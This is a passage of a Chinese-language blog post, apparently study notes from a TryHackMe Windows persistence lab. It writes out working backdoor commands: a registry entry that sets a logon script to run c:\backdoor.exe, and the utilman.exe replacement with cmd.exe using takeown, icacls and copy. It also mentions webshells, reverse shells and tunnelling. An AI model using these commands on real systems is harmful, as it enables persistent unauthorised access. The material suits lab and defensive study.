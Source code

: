 ![在这里插入图片描述](https://img-blog.csdnimg.cn/09cd3c92ddca4bb6ac5e8f090edf87b1.png)

Userinit中可以指定多个程序，因此我们可以将后门添加进去

### 登录脚本

userinit.exe加载用户配置文件时要执行的操作之一是检查名为UserInitMprLogonScript的环境变量。我们可以使用此环境变量将登录脚本分配给将在登录计算机时运行的用户。

默认情况下不会设置变量，因此我们可以创建它并分配我们喜欢的任何脚本。

	reg add hkcu\Environment /t REG_EXPAND_SZ /v UserInitMprLogonScript /d c:\backdoor.exe

请注意，此注册表项在HKLM中没有等效项，因此后门程序仅适用于HKCU 当前用户。

## RDP中的后门

人均都会了这个

- C:\Windows\System32\sethc.exe
- C:\Windows\System32\Utilman.exe

	takeown /f c:\Windows\System32\utilman.exe
	icacls C:\Windows\System32\utilman.exe /grant Administrator:F
	copy c:\Windows\System32\cmd.exe C:\Windows\System32\utilman.exe

## 滥用现有的服务

典型的 Web 服务器设置中植入后门。

这个更不用说了，向web服务器植入webshell、reverse shell等等，甚至是搭建http隧道 [neoreg](https://github.com/L-codes/Neo-reGeorg)

[TryHackMe](https://tryhackme.com/room/windowslocalpersistence)
